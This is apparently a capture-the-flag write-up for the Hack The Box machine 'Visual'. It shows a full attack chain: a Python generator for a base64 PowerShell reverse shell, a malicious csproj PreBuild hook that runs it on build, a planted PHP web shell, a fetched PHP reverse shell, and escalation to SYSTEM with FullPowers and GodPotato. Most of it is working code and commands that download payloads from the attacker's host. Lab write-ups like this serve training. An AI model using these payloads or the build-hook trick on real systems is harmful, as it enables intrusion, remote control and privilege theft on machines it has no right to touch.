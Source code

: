 ```yaml
---
layout: post
title:  Visual htb
description: 
date:   2018-04-21 15:01:35 +0300
image:  '/images/20.jpg'
tags:   [Writeup, HTB]
---
```



## Nmap
```
 sudo nmap -p- 10.10.11.234  -T4 -A
 Nmap scan report for 10.10.11.234
Host is up (0.16s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
```
Add `visual.htb` domain to our `/etc/hosts` file.
## Web Enumeration
We can upload our git repo here and it'll compile to make an exe or dll file.
Let's make a project
```
mkdir b17
dotnet new console -n b17 -f net6.0
dotnet new sln -n b17
dotnet s In b17.sln add b17/b17.csproj
```
Now creating a git repo for this project
```
git init
git add .
git commit -m "update"
git update-server-info
```
**Folder Structure**
```
├── b17
│   ├── b17.csproj
│   ├── obj
│   │   ├── b17.csproj.nuget.dgspec.json
│   │   ├── b17.csproj.nuget.g.props
│   │   ├── b17.csproj.nuget.g.targets
│   │   ├── project.assets.json
│   │   └── project.nuget.cache
│   └── Program.cs
└── b17.sln
```
Now we will upload it

```
python3 -m http.server 80
```

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mwmulbi4b4czpaubfsh7.jpg)
and the website does it works

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xra4v09ov3ufvsitcg6x.jpg)
## Gaining access
from here we can try to get a reverse shell using the csproj file
**Generate Reverse Shell**
```
#!/usr/bin/env python3
#
# generate reverse powershell cmdline with base64 encoded args
#

import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```
```
python <filename>.py <IP> 9009
```
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="BeforeBuild">
    <Exec Command="<Output of filename.py>" />
  </Target>

</Project>

```
updating the git repo again
```
git add b17/b17.csproj
git commit -m "csproj update"
git update-server-info
python3 -m http.server 80
```
Setup Listener
```
nc -nvlp 9009
```
and we got a shell
```
type C:\\Users\\enox\\Desktop\\root.txt
```
## Lateral Movement to nt authority\local service
**Attacker**
```
echo -n "<?php system($_GET['cmd']);?>" | cat > b1.php
python -m http.server 80
```
**Victim**
```
Invoke-WebRequest -Uri http://your-ip:80/b1.php -OutFile C:\\xampp\\htdocs\\b1.php
```

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ziwsvg6gwakaos4cqjjv.jpg)
## Privilege escalation
```
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
```
**Edit ip and port**

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/zdn0jrcacdbd68itwtqy.png)
**Attacker**
```
python3 -m http.server 80
```
**Victim**
```
Invoke-WebRequest -Uri http://your-ip:80/php_reverse_shell.php -OutFile C:\\xampp\\htdocs\\php_reverse_shell.php
```
Setup **Listner**
```
ncat -lvnp 9008
```
Go to http://visual.htb/php_reverse_shell.php
**Boom we got reverse shell as nt authority\local service**
As the user is local service, we can restore the default privileges of the account using [FullPowers](https://github.com/itm4n/FullPowers)
**Attacker**
```
wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
python -m http.server 80
```
**Victim**
```
Invoke-WebRequest -Uri http://your-ip:80/FullPowers.exe -OutFile C:\\xampp\\htdocs\\FullPowers.exe
.\FullPowers.exe 
whoami /priv
```
**Boom**

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pbu71ath05529oi0bxni.png)
then simply using [GodPotato ](https://github.com/BeichenDream/GodPotato)got nt authority\system
**Attacker**
```
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O  GP4.exe
python -m http.server 80
```
**Victim**
```
Invoke-WebRequest -Uri http://your-ip:80/GP4.exe -OutFile C:\\xampp\\htdocs\\GP4.exe
.\GP4 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```
Go root.....
Hurray!!!!!!!!!!!!!!!
